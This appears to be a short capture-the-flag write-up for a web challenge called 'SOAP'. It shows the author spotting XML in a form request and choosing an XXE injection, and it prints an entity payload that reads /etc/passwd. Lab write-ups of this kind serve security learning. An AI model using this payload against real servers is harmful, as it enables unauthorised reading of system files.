 # SOAP
## Problem
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.
## Thought Process
- Website has some interactive buttons, clicking them sends a request, so I opened the Network Tab to inspect it closely
```html
<form class="detailForm" action="/data" method="POST">
                        <input required="" type="hidden" name="ID" value="1">
                  <button type="submit" class="btn btn-sm
                      btn-outline-secondary">Details</button>
                    </form>
```
- The payload tab seems to imply the existence of some form of xml, which could be exploited by using an XXE (XML External Entity) Injection
- Since we need to use an XXE and modify the payload, I did some research about basic XXE Injections
- To obtain the flag at /etc/passwd, I found this XXE Injection:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
